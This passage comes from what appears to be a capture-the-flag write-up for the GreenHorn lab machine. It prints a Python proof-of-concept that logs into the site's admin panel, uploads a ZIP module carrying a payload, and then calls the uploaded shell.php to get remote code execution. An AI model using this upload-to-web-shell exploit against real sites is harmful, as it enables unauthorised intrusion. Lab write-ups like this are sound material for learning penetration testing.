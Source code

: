 Now, we need to replace the `<hostname>` placeholders in the `poc.py` file with our target which is `greenhorn.htb`.

The final script looks like this
```python
# Replace <hostname>
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

login_url = "http://greenhorn.htb/login.php"
upload_url = "http://greenhorn.htb/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "[REDACTED]","<username>": "","submit": "Log in"}

file_path = input("ZIP file path: ")

multipart_data = MultipartEncoder(
    fields={
        "sendfile": ("payload.zip", open(file_path, "rb"), "application/zip"),
        "submit": "Upload"
    }
)

session = requests.Session()
login_response = session.post(login_url, headers=headers, data=login_payload)


if login_response.status_code == 200:
    print("Login account")

 
    upload_headers = {
        "Referer": upload_url,
        "Content-Type": multipart_data.content_type
    }
    upload_response = session.post(upload_url, headers=upload_headers, data=multipart_data)

    
    if upload_response.status_code == 200:
        print("ZIP file download.")
    else:
        print("ZIP file download error. Response code:", upload_response.status_code)
else:
    print("Login problem. response code:", login_response.status_code)


rce_url="http://greenhorn.htb/data/modules/payload/shell.php"

rce=requests.get(rce_url)

print(rce.text)
```
